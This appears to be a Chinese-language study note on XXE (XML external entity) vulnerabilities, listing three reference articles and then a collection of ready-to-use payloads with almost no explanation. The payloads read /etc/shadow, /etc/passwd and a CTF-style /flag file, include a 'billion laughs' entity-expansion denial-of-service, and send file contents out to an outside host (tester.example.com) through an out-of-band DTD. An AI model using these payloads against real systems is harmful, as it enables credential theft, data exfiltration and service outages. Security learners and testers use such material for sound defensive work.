 # XXE漏洞的学习：

1. [XXE漏洞的学习与利用总结](https://www.cnblogs.com/r00tuser/p/7255939.html)
2. [XXE漏洞利用技巧：从XML到远程代码执行](https://www.freebuf.com/articles/web/177979.html)
3. [XXE: XML eXternal Entity Injection vulnerabilities](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)

基础Payload：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE resetPassword [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)>
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
    %local_dtd;
]>
<request>
    <status>&data;</status>
</request>
```


```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file">
%pe;
%param1;
]>
<foo>&external;</foo>




The contents of xxe_file should be:
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>">
```
